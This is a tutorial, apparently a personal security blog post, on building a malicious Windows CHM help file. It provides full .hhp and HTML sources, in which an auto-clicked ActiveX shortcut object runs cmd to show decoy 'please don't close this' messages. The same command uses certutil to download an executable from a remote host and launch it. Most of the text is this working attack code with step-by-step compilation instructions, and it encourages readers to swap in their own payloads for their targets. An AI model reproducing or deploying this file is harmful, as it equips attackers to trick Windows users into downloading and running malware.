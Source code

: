 ```yaml
---
title: "Build Malicious CHM (Help) file"
tags:
- Malicious-CHM
---
```



Hey everyone. May have a nice day! So today I'm gonna explain how a help (.chm) file could be a malicious file in Windows machine.

First, we need to clarify what is .chm file and what its function.

Based on this [website](https://whatis.techtarget.com/fileformat/CHM-Compiled-HTML-file),

CHM is an extension for the Compiled HTML file format, most commonly used by Microsoft’s HTML-based help program. It may contain many compressed HTML documents and the images and JavaScript they link to. CHM features include a table of contents, index, and full text searching.

So, basically user will click this file to see program's manual, details and so on in windows. But, nowadays... only a few amount of people read (click) this CHM file . So, this malicious chm or attack may not cool enough to be a malicious file because of less uses in wild attacks nowadays hahaha.

Example of CHM file
![enter image description here](http://www.create-chm.com/content/pages/about-chm/images/chm-file-viewer.png)

So, how can this .chm file format can be malicious or how to make it malicious that can download file / execute  code?

Here a write-up on how to make a malicious "help documentation" (chm).

## Let's go!

To build a CHM file, first you need an HTML help project (.hhp) file which is a text configuration file.

Here is an example of .hhp file:
```
[OPTIONS]
Compatibility=1.1 or later
Compiled file=malicious.chm
Default topic=malicious.htm
Display compile progress=No
Language=0x410 Italian (Italy)

[FILES]
malicious.htm

[INFOTYPES]
``` 
Save it as `malicous.hhp`.

Next, create `.htm` file for our HTML source where this file will be our weapon to execute code.
I named it as `malicious.htm`.

Here is the content of the `malicious.htm` file:
```
<html>
<title> Malicious CHM </title>
<head>
</head>
<body>

<h2 align=center> Malicious CHM </h2>
<p>
<h3 align=center> This is a malicious CHM file </h3>
</p>
</body>
</html>

<OBJECT id=shortcut classid="clsid:52a2aaae-085d-4187-97ea-8c30db990436" width=1 height=1>
<PARAM name="Command" value="ShortCut">
<PARAM name="Button" value="Bitmap:shortcut">
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
<PARAM name="Item2" value="273,1,1">

</OBJECT>
<SCRIPT>
shortcut.Click();
</SCRIPT>
```

Ok now I'm gonna explain the execution code.

The execution code will happen in this line. Note here that, you can replace the execution code with your own desired. :)
```
<PARAM name="Item1" value=",cmd,/c echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this... & certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe & start c:\mal.exe">
```
The next line meaning that I tell the command prompt to print these words to user because the next command "`certutil.exe`" require some seconds to do its job. 

    echo HTML Help Executable may be stopped working... & echo Process is running, please don't close this...
    
The next line is "`certutil.exe`" command. Certutil.exe is a Windows binary used for handling certificates and also can work as our downloader agent to download our malicious binary. Refer [this](https://lolbas-project.github.io/lolbas/Binaries/Certutil/) for more detail about the binary.

```
certutil.exe -urlcache -split -f https://github.com/fareedfauzi/Testing/raw/master/malicious.exe c:\mal.exe
```
Because cerutil.exe takes some times to download our binary, the process execution will be slow too. This make our chm file will display "HTML Help Executable stopped working". If you replaced this code to make an only execution without downloading, CHM will work perfectly without prompting "stopped working" msgbox.

And last line is..
```
& start c:\mal.exe
```
Its function is too execute our malicious binary. 

You can replace the execution code with anything you want include execution of batch file, powershell and so forth (follow your creativity and target).

Now we have these files on our machine. So, the next step is to compile this file to generate our chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm2.PNG){: .align-center}

To generate the CHM file. You can do this using "HTML Help Workshop". 
Download at Official Microsoft website [here](https://www.microsoft.com/en-my/download/details.aspx?id=21138).

Open HTML Help Workshop ---> Go to `File` ---> Click `compile` ---> Choose our `.hhp` file. ---> HTML Help Workshop will compile for us and give us the malicious chm file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm11.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm3.PNG){: .align-center}

Now double click on your help file to check it worked!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm4.PNG){: .align-center}

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/maliciouschm/maliciouschm5.PNG){: .align-center}

Now, our code is successfully execute. It download our binary and then start our malicious binary.




So, from here you can get a big picture on how chm file could be another hackers weapon to execute their code.

Orite, goodbye! (and Assalamualaikum)

